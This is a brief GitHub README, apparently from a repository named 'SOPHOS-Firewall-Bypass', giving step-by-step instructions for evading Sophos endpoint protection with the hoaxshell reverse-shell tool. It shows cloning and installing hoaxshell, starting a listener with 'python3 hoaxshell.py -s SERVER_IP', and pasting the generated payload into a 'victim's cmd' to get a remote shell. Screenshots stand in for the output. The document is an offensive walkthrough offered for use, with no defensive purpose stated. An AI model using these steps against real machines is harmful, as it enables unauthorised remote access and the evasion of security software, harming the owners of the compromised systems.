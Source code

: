 ![image-removebg-preview](https://github.com/HackWithSumit/SOPHOS-Firewall-Bypass/assets/120317751/1fffa714-6e97-4e18-ad11-ea4729bdc626)


## Bypassing Sophos Endpoint Protection With Hoaxshell

Download the hoaxshell in github

```
  git clone https://github.com/t3l3machus/hoaxshell
  cd ./hoaxshell
  sudo pip3 install -r requirements.txt
  chmod +x hoaxshell.py
```

Command:

```
python3 hoaxshell.py -s SERVER_IP
```

Now just copy the payload generated by hoaxshell and go to the victim's cmd, now just paste the payload

![image](https://github.com/HackWithSumit/SOPHOS-Firewall-Bypass/assets/120317751/62eb8d64-8bd7-443e-9f59-95176cc030f5)


![](../Sophos/Images/sophoshs.png)

## Execution

![image](https://github.com/HackWithSumit/SOPHOS-Firewall-Bypass/assets/120317751/81f793aa-6dc5-476e-9a69-e89176eb01aa)

